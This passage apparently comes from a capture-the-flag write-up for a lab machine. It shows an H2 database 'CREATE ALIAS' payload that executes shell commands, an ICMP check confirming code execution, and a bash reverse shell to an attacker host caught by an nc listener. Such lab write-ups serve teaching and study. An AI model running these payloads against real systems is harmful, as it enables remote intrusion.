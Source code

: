     CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('ping -c 1 10.10.14.8')



I'll update the URL in the JSON, and submit:



    10.10.10.214 - - [09/Feb/2021 19:24:54] "GET /ping.sql HTTP/1.1" 200 -



A second later, at `tcpdump`:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    19:24:58.130520 IP 10.10.10.214 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    19:24:58.130534 IP 10.10.14.8 > 10.10.10.214: ICMP echo reply, id 1, seq 1, length



It worked. I've got RCE.

### Shell

I'll create a copy of the script, `rev.sql`, and add a reverse shell:



    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
       String[] command = {"bash", "-c", cmd};
       java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
       return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"')



On submitting, the script is loaded from the webserver, and then the
reverse shell comes to `nc`:



    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58288
    bash: cannot set terminal process group (863): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www.md$ id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)


